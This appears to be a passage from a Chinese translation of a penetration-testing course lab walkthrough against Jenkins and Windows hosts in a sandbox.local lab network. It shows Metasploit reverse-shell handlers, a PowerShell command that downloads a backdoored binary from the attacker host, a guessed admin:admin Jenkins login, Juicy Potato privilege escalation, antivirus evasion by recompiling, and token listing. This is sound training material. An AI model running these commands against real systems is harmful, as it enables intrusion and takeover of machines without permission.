Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

# 列表 975 - 通过 Python 启动 HTTP 服务器

当 http 服务器启动后，我们可以通过在 Internet Explorer 中打开我们的 Kali IP 地址来访问它。如果成功，我们将看到 `whoami` 二进制文件和 `met.bin` 有效载荷。


# 图 347. 访问 HTTP 服务器

点击 `whoami.exe` 链接将显示一个下载提示，我们可以选择“保存”。保存后，我们可以用户在 `Downloads`（下载）目录中找到该二进制文件。

[^742]: Stephen Fewer, 2013, https://github.com/stephenfewer/ReflectiveDLLInjection


当下载完成后，我们将把该二进制文件重命名为 `Current.exe` 并将其复制到 `C:\Puppet`。这将确保在 Windows 尝试在服务启动时执行真实二进制文件之前，先执行该二进制文件。


接下来，我们需要使用之前用于生成有效载荷的配置启动 `msfconsole`，以便捕获我们的反向 Shell。我们还将指示 Metasploit 将 Shell 迁移到另一个进程，并确保即使 Windows 认为服务启动失败，Shell 也保持连接。为此，我们将设置 `AutoRunScript`，以便在 meterpreter 会话启动时将 Shell 迁移到新进程。

```
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;

set PAYLOAD windows/meterpreter/reverse_tcp;

set AutoRunScript post/windows/manage/migrate;

set LHOST 10.11.0.4;

set LPORT 80;

run"

...

[*] Started reverse TCP handler on 10.11.0.4:80
```


当一切就绪，我们将尝试重新启动 Poultry 机器并等待我们的反向 Shell。为了获得一个持久化的后门，我们可以运行 `net user` 来重置 `poultryadmin`（我们之前识别的本地管理员用户）的密码。由于我们将获得的 Shell 具有 SYSTEM 权限，因此重置密码应该不会有问题。

```
[*] Started reverse TCP handler on 10.11.0.4:80

[*] Sending stage (180291 bytes) to 10.11.1.250

[*] Meterpreter session 2 opened (10.11.0.4:80 -> 10.11.1.250:9447) at 2020-01-01 15:56:03 -0700

[*] Session ID 1 (10.11.0.4:80 -> 10.11.1.250:9447) processing AutoRunScript 'post/windows/manage/migrate'

[*] Running module against POULTRY

[*] Current server process: Current.exe (1560)

[*] Spawning notepad.exe process to migrate to

[*] Migrating to 2324

[*] Successfully migrated to process 2324

meterpreter > shell

Process 2784 created.

Channel 1 created.

Microsoft Windows [Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami

whoami

nt authority\system
```


C:\Windows\system32> `net user poulytradmin OffSecHaX!`

`net user poulytradmin OffSecHaX!`

The command completed successfully.

C:\Windows\system32>


密码更改后，我们可以尝试通过远程桌面登录。这次，我们不需要 `/d` 标志，因为我们是作为本地管理员用户登录的。

```
kali@kali:~$ proxychains xfreerdp /u:poulytradmin /v:10.5.5.28 +clipboard

ProxyChains-3.1 (http://proxychains.sf.net)

[16:16:47:626] [INFO][com.freerdp.client.common.cmdLine] – loading channelEx cliprdr

S-chain| <->127.0.0.1:1080<-> <->10.5.5.20:3389<->-OK

Password:
```

# 列表 978 - 以 poultryadmin 身份使用 xFreeRDP

认证到工作站后，我们看到了 `poultryadmin` 用户的桌面。


既然我们已经获得了 Poultry 的管理员访问权限，我们可以开始寻找访问域控制器的途径。

## 24.6.5 后渗透枚举

在获得管理员用户访问权限后，我们想要尝试的第一项枚举是列出任何已登录用户的域令牌。由于我们刚刚重启了 Windows，我们不指望能找到什么，但检查一下总是一个好主意。

要列出令牌，我们将使用 Metasploit 的 `incognito` 扩展[^743]。回到 Metasploit Shell，我们可以加载 `incognito` 扩展并通过用户名 `-u` 列出令牌。

[^743]: Offensive Security, 2020, https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

```
meterpreter > use incognito

Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available

====================================

NT AUTHORITY\LOCAL SERVICE

NT AUTHORITY\NETWORK SERVICE

NT AUTHORITY\SYSTEM

poultry\poultryadmin

Impersonation Tokens Available

====================================

NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```

# 列表 979 - 使用 incognito 导出令牌

不幸的是，这并没有提供给我们任何我们尚未拥有的访问权限。

我们可以继续多查找一些内容。我们看到 Thunderbird 也已安装，但并未为管理员用户配置。我们可以通过导航到 `C:\Users\alex\AppData\Roaming\Thunderbird\Profiles\jbjv4ndsh.default-release\Mail\mail.sandbox.local\Inbox` 来检查 Alex 的邮箱。邮件的内容只是向 Alex 抱怨正在使用的旧版 Windows 版本。

```
From - Wed Nov 13 17:05:33 2019

X-Account-Key: account1

...

Reply-To: admin@sandbox.local

X-Priority: 3

To: alex@sandbox.local

Content-Type: text/plain; charset="iso-8859-1"

Alex,

I know you don't like Windows 10 but we need to get everyone transitioned over at some

point soon. Besides, your box is so old we don't even know what's running on it and if

it's updated or not anymore.

-Roger
```

# 列表 980 - 阅读 Alex 的邮件

由于我们没有发现其他有趣的信息，我们将继续扫描整个内部网络，看看能否发现任何新事物。

## 24.7 内部网络枚举

在开始枚举内部网络之前，让我们回顾一下我们已经知道的信息：

我们知道 Ajla 位于外部网络，在一个防火墙之后。我们还知道 Zora 和 Poultry 位于内部网络的另一个防火墙之后，但我们不知道整个内部网络的结构。为了查明这一点，我们必须运行扫描。


# 图 351: 带有未知内部网络的架构图

为了有效地枚举内部网络，我们首先必须制定一种扫描方法。运行完整的端口扫描并不是一种有效的方法。如前所述，ICMP 主机发现无法通过 `proxychains` 隧道工作。相反，我们可以尝试使用已沦陷的 Windows 主机来发现存在哪些主机，并使用该信息进行更彻底的扫描。

为此，我们可以编写一个简短的一行命令，使用 `for` 循环 ping 网络上的每一个可能的主机。要通过数字范围迭代命令，我们可以使用 `/L` 标志，它接受一个可替换的参数（在我们的情况下是 `%i`）以及以 `(start, step, end)`（起始，步长，结束）格式指定的迭代数字。接下来，我们将为每个主机发送一个 ping（`-n 1`），并使用 `-w 200` 标志设置一个短超时。为了获得整齐的结果，`ping` 命令的输出将重定向到 null 接口（通过 `> nul`）。最后，如果 ping 命令成功，我们将 `echo IP` 以指示主机在线。完整的命令和输出如列表 981 所示。

但请注意，这仅会执行 ping 扫描。这意味着我们不能假设结果是完整的，因为可能存在配置为不响应 ICMP 数据包的存活主机。

```
C:\Users>poulytradmin>for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.

10.5.5.1 is up.

10.5.5.11 is up.

10.5.5.20 is up.

10.5.5.25 is up.

10.5.5.30 is up.
```


# 列表 981 - Ping 扫描内部网络

我们的扫描发现了五个主机，包括 `10.5.5.1` 网关，因此我们可以暂时忽略它。接下来的两个主机我们已经攻陷了（`10.5.5.11` 和 `10.5.5.20`）。这剩下两个值得关注的主机。我们将对这两个主机从 Kali 发起对前 1000 个端口的 Nmap 扫描。

[^44]: Jesus Costello, 2020, https://www.rubyguides.com/2012/02/cli-ninja-ping-sweep/

```
kali@kali:~$ proxychains nmap --top-ports=1000 -sT -Pn 10.5.5.25,30 --open
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-11 19:00 MST
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.30:5900-<->-timeout
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.25:5900-<->-timeout
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.30:53-<->-OK
...
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.25:4321-<->-timeout
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.30:667-<->-timeout
|S-chain|<->-127.0.0.1:1080-<->-10.5.5.25:667-<->-timeout
```

Nmap 扫描报告针对 `10.5.5.30`
主机在线 (延迟 0.80 秒)。
未显示：988 个关闭端口

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 53/tcp | 开放 | domain |
| 88/tcp | 开放 | kerberos-sec |
| 135/tcp | 开放 | msrpc |
| 139/tcp | 开放 | netbios-ssn |
| 389/tcp | 开放 | ldap |
| 445/tcp | 开放 | microsoft-ds |
| 464/tcp | 开放 | kpasswd5 |
| 593/tcp | 开放 | http-rpc-epmap |
| 636/tcp | 开放 | ldaps |
| 3268/tcp | 开放 | globalcatLDAP |
| 3269/tcp | 开放 | globalcatLDAPS |
| 3389/tcp | 开放 | ms-wbt-server |

Nmap 扫描报告针对 `10.5.5.25`
主机在线 (延迟 0.80 秒)。
未显示：996 个关闭端口

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 135/tcp | 开放 | msrpc |
| 139/tcp | 开放 | netbios-ssn |
| 445/tcp | 开放 | microsoft-ds |
| 8080/tcp | 开放 | http-proxy |

Nmap 扫描完成：2 个 IP 地址 (2 台主机在线) 扫描耗时 1593.55 秒

扫描完成后，我们可以查看我们的结果。

## 24.7.1 查看结果

首先，让我们专注于 `10.5.5.30`。乍一看，这似乎是 `sandbox.local` 的域控制器。既然我们知道哪些端口是开放的，我们可以使用默认的 Nmap 脚本 (`-sC`) 对这些端口进行更深入的扫描，试图提取更多信息。

```
kali@kali:~/poultry$ proxychains nmap -p53,88,135,139,389,445,464,593,636,3268,3269,3389 -sC -sT -Pn 10.5.5.30
```

...
Nmap 扫描报告针对 `10.5.5.30`
主机在线 (延迟 0.29 秒)。

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 53/tcp | 开放 | domain |
| 88/tcp | 开放 | kerberos-sec |
| 135/tcp | 开放 | msrpc |
| 139/tcp | 开放 | netbios-ssn |
| 389/tcp | 开放 | ldap |
| 445/tcp | 开放 | microsoft-ds |
| 464/tcp | 开放 | kpasswd5 |
| 593/tcp | 开放 | http-rpc-epmap |
| 636/tcp | 开放 | ldapssl |
| 3268/tcp | 开放 | globalcatLDAP |
| 3269/tcp | 关闭 | globalcatLDAPSsl |
| 3389/tcp | 开放 | ms-wbt-server |

| rdp-ntlm-info: |
| :--- |
| 目标名称: sandbox |
| NetBIOS 域名: sandbox |
| NetBIOS 计算机名称: SANDBOXDC |
| DNS 域名: sandbox.local |
| DNS 计算机名称: SANDBOXDC.sandbox.local |
| DNS 树名称: sandbox.local |
| 产品版本: 10.0.14393 |
| 系统时间: 2019-12-12T10:36:29+00:00 |

ssl-cert: Subject: commonName=SANDBOXDC.sandbox.local
有效期开始于: 2019-11-25T06:48:49
有效期结束于: 2020-05-26T06:48:49

ssl-date: 2019-12-12T10:36:28+00:00; 比扫描器时间快 8 小时 0 分钟 1 秒。

主机脚本结果：
clock-skew: 平均值: 9h36m01s, 偏差: 3h34m42s, 中位数: 8h00m00s

smb-os-discovery:
- 操作系统: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
- 计算机名称: SANDBOXDC
- NetBIOS 计算机名称: SANDBOXDC\x00
- 域名: sandbox.local
- 森林名称: sandbox.local
- FQDN: SANDBOXDC.sandbox.local
- 系统时间: 2019-12-18T10:08:27-08:00

smb-security-mode:
- 使用账户: <空白>
- 认证级别: 用户
- 质询-应答: 支持
- 消息签名: 必需

smb2-security-mode:
- 2.02: 消息签名已启用且必需

smb2-time:
- 日期: 2019-12-12T10:36:38
- 开始日期: 2019-12-11T12:02:08

Nmap 扫描完成：1 个 IP 地址 (1 台主机在线) 扫描耗时 67.55 秒

该域控制器似乎是一个较新的版本 (Windows Server 2016)，从两次扫描来看，它似乎没有运行除域控制器预期服务以外的其他服务。虽然域控制器有可能通过特定漏洞被直接利用，但根据我们的经验，这种情况不太可能，因为这些服务器通常都经过加固。

让我们继续查看 `10.5.5.25`，希望它会是更好的目标。我们将再次使用默认的 Nmap 脚本 (`-sC`) 进行 Nmap 扫描。

```
kali@kali:~/joutilrys$ nmap -p135,139,445,8080 -sC -sT -Pn 10.5.5.25
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 16:03 MST
```

...
Nmap 扫描报告针对 `10.5.5.25`
主机在线 (延迟 0.077 秒)。

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 135/tcp | 开放 | msrpc |
| 139/tcp | 开放 | netbios-ssn |
| 445/tcp | 开放 | microsoft-ds |
| 8080/tcp | 开放 | http-proxy |

| http-robots.txt: |
| :--- |
| 1 个禁止项 |

| http-title: |
| :--- |
| 站点没有标题 (text/html;charset=utf-8)。 |

主机脚本结果：
clock-skew: 平均值: 2h40m01s, 偏差: 4h37m11s, 中位数: -1s

smb-os-discovery:
- 操作系统: Windows 10 Pro 15063 (Windows 10 Pro 6.3)
- 操作系统 CPE: cpe:/o:microsoft:windows_10::pro
- 计算机名称: CEVAPI
- NetBIOS 计算机名称: CEVAPI\x00
- 域名: sandbox.local
- 森林名称: sandbox.local
- FQDN: CEVAPI.sandbox.local
- 系统时间: 2020-01-01T15:03:40:00:00

smb-security-mode:
- 使用账户: 访客
- 认证级别: 用户
- 质询-应答: 支持
- 消息签名: 禁用 (危险，但为默认设置)

smb2-security-mode:
- 2.02: 消息签名已启用但非必需

smb2-time:
- 日期: 2020-01-01T23:03:37
- 开始日期: 2020-01-01T22:07:03

Nmap 扫描完成：1 个 IP 地址 (1 台主机在线) 扫描耗时 19.77 秒

*清单 984 - 针对 10.5.5.25 带脚本的 Nmap 扫描*

Nmap 扫描发现目标 `10.5.5.25` 名为 Cevapi，并且运行着 Windows 10 Pro。我们的 Nmap 扫描还发现该主机开放了 `8080` 端口，并建议其正在运行 `http-proxy` 服务。然而，这个端口也常用于运行 HTTP 应用程序。收集更多信息的一种简单方法是访问该页面。不过，我们首先必须配置 Firefox 使用我们的 SOCKS 代理。

这可以通过打开 Firefox 偏好设置并搜索“proxy”来实现。


图 352：搜索代理设置

“Use this proxy server for all protocols”选项应该保持未选中状态，并且 SOCKS 主机必须设置为 `127.0.0.1`，端口为 `1080`。最后，我们将点击 SOCKS v4 单选按钮并点击“确定”。


图 353：配置 SOCKS 代理

接下来，我们将打开一个新标签页并访问 `http://10.5.5.25:8080`


图 354：访问 10.5.5.25 的 8080 端口

打开的页面是一个 Jenkins 登录页面。这是一个非常有趣的目标，因为 Jenkins 是一款功能极其强大的软件，可能会暴露出一些攻击面。因此，接下来我们将把精力集中在该主机上。

## 24.8 针对 Jenkins 服务器

Jenkins 是一个自动化服务器，可用于自动化与软件开发相关的许多任务。由于其性质，像 Jenkins 这样的持续集成和交付工具通常能够执行代码。这是为了设置由特定事件或动作触定的自定义可重复任务所必需的。

像 Jenkins 这样的工具的常见用例是在提交推送后拉取 git 仓库，运行一组测试以确保应用在更改过程中没有出现问题，并且如果一切成功，将新代码合并到主分支。为了做到这一点，Jenkins 需要有能力执行系统命令。作为渗透测试人员，访问 Jenkins 将为我们提供一条代码执行路径。

一如既往，在我们开始尝试利用任何内容之前，我们希望进行一定程度的枚举。我们已经通过端口扫描进行了一些网络枚举，但现在我们想仅仅专注于 Jenkins Web 应用程序。

### 24.8.1 应用程序枚举

首先，我们可以通过查看 Jenkins 登录页的文档对象模型 (DOM) 来开始我们的枚举。稍后我们也会查看 HTML 源代码，因为它可能与 DOM 不同。要查看 DOM，我们在页面的任何位置右键单击并选择“检查元素 (Inspect Element)”。


745 (Wikipedia, 2019). https://en.wikipedia.org/wiki/Jenkins_(software)
746 (Continuous Delivery Foundation, 2020). https://jenkins.io/doc/

打开 Firefox 网页开发者工具后，我们右键点击顶部的 HTML 标签并选择 **Expand All**（展开全部）。


图 356：展开 DOM

对 DOM 的审查没有揭示任何新信息。我们可以看到该页面是一个基本的 HTML 表单。


接下来，我们将查看源代码，看看是否有什么新发现。

为此，我们在页面上的任意位置右键点击并选择 *View Source*（查看源代码）。


虽然 JavaScript 可以修改 DOM，导致 DOM 和源代码不同，但这里似乎并非如此。源代码和 DOM 非常相似。

接下来，我们将运行一个基本的 `dirb` 扫描来发现任何潜在的隐藏文件。Jenkins 会对我们在未登录时尝试访问的任何文件返回 403，因此我们将使用 `-w` 标志运行扫描，以便在遇到警告消息时继续扫描。

```


`kali@kali:~$ proxychains dirb http://10.5.5.25:8080/ -w`

...

URL_BASE: `http://10.5.5.25:8080/`

WORDLIST_FILES: `/usr/share/dirb/wordlists/common.txt`

OPTION: Not Stopping on warning messages

-----------

GENERATED WORDS: 4612

---- Scanning URL: `http://10.5.5.25:8080/` ----

|S-chain|<!--127.0.0.1:1080--><>--10.5.5.25:8080--><>-->OK

(!) WARNING: All responses for this directory seem to be CODE = 403.

(Use mode '-w' if you want to scan it anyway)


+ `http://10.5.5.25:8080/error` (CODE:400|SIZE:6082)

+ `http://10.5.5.25:8080/favicon.ico` (CODE:200|SIZE:17542)

(!) WARNING: All responses for this directory seem to be CODE = 403.

   (Use mode '-w' if you want to scan it anyway)

...

+ `http://10.5.5.25:8080/login` (CODE:200|SIZE:1942)

+ `http://10.5.5.25:8080/logout` (CODE:500|SIZE:14235)

(!) WARNING: All responses for this directory seem to be CODE = 403.

   (Use mode '-w' if you want to scan it anyway)

...

+ `http://10.5.5.25:8080/robots.txt` (CODE:200|SIZE:71)

...

---- Entering directory: `http://10.5.5.25:8080/assets/` ----

------------------

END_TIME: Thu Dec 12 10:16:39 2019

DOWNLOADED: 9224 - FOUND: 5

Listing 985 - Dirb scan of Jenkins

```
我们的扫描发现了一些端点，但没有有价值的信息。

接下来，让我们尝试一下我们的黑客直觉一直提示我们要做的事。让我们输入凭据 `admin:password` 和 `admin:admin`。在内部网络中，弱密码配置非常普遍，因为只有“受信任”的用户才被期望能够访问服务器。

此外，尝试几个密码组合很少会触发警报，因为普通用户偶尔输错密码是很常见的。


图 359. admin.password 失败

凭据 `admin:password` 失败了。接下来，我们将尝试 `admin:admin`。


*图 360. admin:admin 成功*

`admin:admin` 凭据有效！接下来，我们需要找到一种利用 Jenkins 获取 shell 的方法。

### 24.8.2 利用 Jenkins

查阅 [Jenkins 文档](https://wiki.jenkins.io/display/JENKINS/Configure+the+Job) 就足以让我们学会如何创建一个允许我们执行系统命令的项目。

[^47]: (Jenkins Wiki, 2017), https://wiki.jenkins.io/display/JENKINS/Configure+the+Job

首先，我们将选择左上角的 New *Item*（新项目）链接来创建一个新项目。


图 361：选择新项目

当新项目页面打开时，我们将给该项目起一个听起来不具恶意的名字，如“Access”（访问），选择 Freestyle project（自由风格项目），并点击 OK（确定）。


*图 362：创建新项目*

要让 Jenkins 执行系统命令，我们可以使用 *Build*（构建）配置部分。

我们将选择 **Add build step**（添加构建步骤），并从下拉菜单中选择“Execute Windows batch command”（执行 Windows 批处理命令）。


图 363：选择“执行 Windows 批处理命令”

当 *Command*（命令）文本框出现时，我们将输入“whoami”。这稍后将更改为我们希望执行的其他命令。当命令输入到文本框中后，我们将点击 **Save**（保存）。


*图 364：为批处理命令编写 "whoami"*

然后 Jenkins 将打开该项目的主页面。从那里，我们可以选择 *Build Now*（立即构建）来运行该命令。


*图 365：构建命令*

当构建执行时，在 *Build History*（构建历史）下将显示一个新条目。

点击“#1”将打开构建页面。


图 366：Whoami 构建完成


从构建页面，我们可以选择 **Console Output**（控制台输出）来查看我们命令的输出。


*图 367：打开 Jenkins 构建*

这将打开“控制台输出”页面，显示 `whoami` 命令的输出。


*图 368：查看 whoami 构建控制台输出*

根据输出结果，Jenkins 正以 `cevapi\jenkinsuser` 账户运行代码。有了这些信息，我们可以开始尝试获取 meterpreter shell。

可以安全地假设，既然 Poultry 使用了防病毒软件，Cevapi 也会使用。我们应该能够使用我们之前生成的带有后门 whoami 的 shell，并尝试在 Cevapi 上获取 meterpreter shell。我们首先必须设置一个 Web 服务器来下载 shell，使用 Jenkins 下载 shell，在 Kali 上启动一个 metasploit 监听器，最后使用 Jenkins 运行带有后门的可执行文件。

首先，让我们创建一个新目录作为工作目录，并将旧的 **whoami.exe** 有效载荷复制到其中。

```bash
kali@kali:~$ cd ~
kali@kali:~$ mkdir cevapi
kali@kali:~$ cd cevapi/
kali@kali:~/cevapi$ cp ../poultry/whoami.exe ./
```

*列表 98B - 为 Cevapi 创建工作目录*

接下来，我们将启动一个 HTTP 服务器，以便 Cevapi 下载有效载荷。

```bash
kali@kali:~/cevapi$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


### *列表 9B7 - 启动 HTTP 服务器*

在 Jenkins 中，我们将点击屏幕左上角面包屑导航中的 **Access** 链接。这将带我们回到 Access 项目页面。


*图 369. Access 项目页面*

接下来，我们点击侧边栏中的 Configure（配置）以打开配置页面，该页面允许我们更改 Build 命令。我们将尝试使用 PowerShell 来下载该文件。


*图 370. 用于下载有效载荷的 PowerShell 命令*

更具体地说，我们将使用 `System.Net.WebClient` 对象中的 `DownloadFile` 方法，传入我们的 Kali IP 地址以及我们希望文件在文件系统中下载的位置。

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/whoami.exe', 'c:\\Users\\Public\\whoami.exe')
```

*列表 988 - 用于下载 whoami.exe 的命令*

设置好 PowerShell 命令后，我们将点击 Save（保存），这将带我们回到“Access”项目页面。从这里，我们选择 Build Now（立即构建）以执行该命令。如果命令成功，我们将会在 Python HTTP 服务器中看到一个日志条目。

```text
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.11.1.250 - - [12/Dec/2019 11:44:49] "GET /whoami.exe HTTP/1.1" 200 -
```

*列表 989 - 查看 HTTP 服务器日志*

既然文件已经下载，我们可以停止 Python HTTP 服务器，并启动 `msfconsole`，使用最初用于生成有效载荷的相应参数。

```text
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
 set PAYLOAD windows/meterpreter/reverse_tcp;\
 set LHOST 10.11.0.4;\
 set LPORT 80;\
 run"
...
[*] Started reverse TCP handler on 10.11.0.4:80
```

*列表 990 - 启动 msfconsole*

接下来，我们将返回 Jenkins 并重新配置项目以运行 shell。这可以通过将执行的命令设置为下载的二进制文件路径来完成。当我们准备好时

捕获到 shell 后，我们在 Jenkins 中点击 *Build Now*。如果一切按计划进行，我们应在 metasploit 中捕获到反向 shell。

```
[*] Sending stage (180291 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:80 -> 10.11.1.250:12165) at 2019-12-12 12:07:30 -0700
meterpreter > shell
Process 4688 created.
Channel 1 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Program Files (x86)\Jenkins\workspace\Access>whoami
whoami
cevpai\jenkinsuser
C:\Program Files (x86)\Jenkins\workspace\asdf>net user jenkinsuser
net user jenkinsuser
User name                jenkinsuser
Full Name
Comment
User's comment
Country/region code      000 (System Default)
Account active           Yes
Account expires          Never
Password last set        10/31/2019 6:10:50 AM
Password expires         Never
Password changeable      11/1/2019 6:10:50 AM
Password required        No
User may change password Yes
Workstations allowed     All
Logon script
User profile
Home directory
Last logon             1/1/2020 2:07:01 PM
Logon hours allowed    All
Local Group Memberships  *Users
Global Group memberships *None
The command completed successfully.
```

正如预期，运行 Jenkins 构建的用户名为 `jenkinsuser`。该用户也不属于任何管理员组。既然我们已经有了 shell，让我们枚举 Cevapi，希望能找到提权方法。

## 24.8.3 后渗透阶段枚举

这是一个很好的时机，让我们退后一步，看看目前为止我们有什么。我们有两个被攻陷的 Linux 主机（Ajla 和 Zora）。第一个主机运行在外部网络中，第二个主机运行在内部网络中。我们还有 Poultry，一个加入域并在内部网络中被攻陷的 Windows 主机。最后，我们目前正在攻陷 Cevapi。


在开始大量探索 Cevapi 之前，我们首先检查当前用户的权限。我们可以使用 `whoami /priv` 命令来实现这一点。

```
C:\Program Files>whoami /priv
whoami /priv
PRIVILEGES INFORMATION
-----------------------
Privilege Name Description State
============================= ===================================== ===========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
Listing 992 - Checking user permissions
```

大多数权限看起来都是标准的，但 `SeImpersonatePrivilege` 比较突出。描述指出它允许我们“在身份验证后冒充客户端”。随着枚举的继续，我们会记下这个权限。

接下来，我们可以收集一些有关系统的基本信息，以了解我们运行的是哪个版本的操作系统以及 Cevapi 的补丁级别。

```
C:\Program Files (x86)\Jenkins\workspace\Access>systeminfo
systeminfo
Host Name: CEVAPI
OS Name: Microsoft Windows 10 Pro
OS Version: 10.0.15063 N/A Build 15063
OS Manufacturer: Microsoft Corporation
```


OS Configuration: Member Workstation

...

Page File Location(s): `C:\pagefile.sys`

Domain: `sandbox.local`

Logon Server: N/A

Hotfix(s): 8 Hotfix(s) Installed.

[01]: KB4515840

[02]: KB4073543

[03]: KB4091663

[04]: KB4134660

...

```
Listing 993 - Checking systeminfo
```

根据输出结果，我们可以得知 Cevapi 运行在 Windows 10 Pro build 15063 上。根据 Windows 10 版本历史，build 15063 发布于 2017 年 4 月 5 日。我们需要记住这个 Windows 版本并不是最新的。我们还发现它安装了八个热修复。如果我们要尝试利用 Windows 操作系统漏洞来提升权限，这可能会有用。我们还看到该目标已加入域。

让我们回到 *SeImpersonate* 权限。快速谷歌搜索 "elevate privileges SeImpersonate"，我们可以发现一个名为 "Juicy Potato" 的漏洞利用。Juicy Potato 自述为“另一个本地提权工具，从 Windows 服务账户到 NT AUTHORITY\SYSTEM”。[^48] 这听起来正是我们需要的，因此让我们深入挖掘一下。

[^48] (Andrea Pierini, Giuseppe Trotta, 2019), https://ohpe.it/juicy-potato/

### 24.8.4 权限提升

Juicy Potato 的源代码可以在 GitHub 页面上找到：https://github.com/ohpe/juicy-potato。Juicy Potato 是用 Visual Studio 编写的，也可以用它来编译。在审查代码后，我们没有发现任何令人担忧的地方，因此我们可以认为该漏洞利用对目标来说是安全的。

> 虽然可以直接从 GitHub 页面下载 Juicy Potato 二进制文件，但我们建议学生在审查源代码后养成编译自己的二进制文件的习惯，这是一种更好且更安全的做法。
>
> 在这种情况下，公开的二进制文件很容易被实验室中使用的 McAfee 防病毒解决方案检测到为恶意文件。因此，我们首先需要识别有问题的字节，并验证我们可以通过修改来绕过检测。使用文件分割技术，并借助一个稍加修改的 Python 脚本，[^49] 我们意识到该防病毒签名是基于包含生成的 PDB 文件路径的内嵌字符串。由于这是编译过程的产物，规避相对简单：我们只需在没有 /DEBUG 标志的情况下编译 JuicyPotato 源代码即可。这就足以绕过 McAfee 的检测，因此我们将使用我们编译的二进制文件，该文件可以在实验室的 Windows 10 PWK 客户端虚拟机中找到。如果你有权访问 Visual Studio，你可以尝试自己编译该漏洞利用。

[^49] (Github, 2013), https://github.com/rzwkc/blob/master/pdysplit.py

一旦 `JuicyPotato.exe` 传输到我们的 Kali 机器上，我们就可以使用现有的 meterpreter shell 将其上传到 Cevapi。

```
C:\Program Files (x86)\Jenkins\workspace\Access>exit

meterpreter > upload /home/kali/cevapi/JuicyPotato.exe c:/Users/Public/JuicyPotato.exe

[*] uploading : /home/kali/cevapi/JuicyPotato.exe --> c:/Users/Public/JuicyPotato.exe

[*] Uploaded 339.50 KiB (100.0%): /home/kali/cevapi/JuicyPotato.exe --> c:/Users/Public/JuicyPotato.exe

[*] uploaded : /home/kali/cevapi/JuicyPotato.exe --> c:/Users/Public/JuicyPotato.exe

meterpreter >
```

在运行 `JuicyPotato.exe` 之前，有一些必须确定的强制性参数。文档指出我们需要提供三个强制性参数：`-t`、`-p` 和 `-l`。[^750]

[^750] (Giuseppe Trotta, 2019), https://github.com/hqhp/juicy-potato#

- 第一个必需的标志（`-t`）是“进程创建模式”。文档指出，如果我们拥有 `SeImpersonate` 权限（我们确实拥有），我们需要 `CreateProcessWithToken`。为了让 Juicy Potato 使用 `CreateProcessWithToken`，我们将传递 `t` 值。
- 接下来，`-p` 标志指定我们要运行的程序。在这种情况下，我们可以使用之前用过的带有后门功能的 `whoami.exe` 二进制文件。
- 最后，Juicy Potato 允许我们使用 `-l` 标志指定 COM 服务器监听的任意端口。

我们鼓励你深入了解此攻击背后的机制以及该工具本身，但就目前而言，我们将放入 Jenkins 的最终命令可以在 Listing 95 中找到。

```
C:\Users\Public\JuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837
```

接下来，我们将使当前的 meterpreter 会话进入后台，并启动一个新的监听器。

```
C:\Program Files>exit

exit

meterpreter > background

[*] Backgrounding session 1...

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.0.4:80
```

最后，我们将编辑 Jenkins 中的项配置，以运行 Juicy Potato 命令。我们还必须勾选 **Execute concurrent builds if necessary** 复选框，以允许我们同时运行旧的

并立即构建新的构建。虽然这不是必须的，但保留一个回退到旧的低权限 shell 的选项会很有用。


*图 372：配置批处理命令以运行 Juicy Potato*

保存配置后，我们选择*立即构建*，并等待 meterpreter shell。

构建将显示为失败，然而，如果我们观察 msfconsole，我们仍然可以获得一个 SYSTEM shell。

```
[*] Sending stage (180291 bytes) to 10.11.1.250

[*] Meterpreter session 4 opened (10.11.1.8:80 -> 10.11.1.250:3261) at 15:03:00

meterpreter > shell

. . .

C:\Windows\system32>whoami

whoami

nt authority\system

C:\windows\system32>
```

列表 997 - 获取系统 shell

### 24.8.5 后渗透枚举

我们已经针对 Cevapi 目标进行了一些基本枚举。在此阶段，我们将专注于更接近我们的既定目标：域管理员（Domain Admin）。

之前，我们发现 Cevapi 实际上已加入 `sandbox.local` 域。让我们查看是否有域账户已登录，以便我们冒充其令牌。与测试 Poulsy 类似，我们将再次使用 meterpreter 中的 incognito 扩展来列出所有可用令牌。

```
C:\windows\system32>exit

exit

meterpreter > use incognito

Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available

===========================

CEVAPI\cevapipadmin

CEVAPI\jenkinssuser

Font Driver Host\UMFD-0

Font Driver Host\UMFD-1

NT AUTHORITY\LOCAL SERVICE

NT AUTHORITY\NETWORK SERVICE

NT AUTHORITY\SYSTEM

sandbox\Administrator

Window Manager\DWM-1


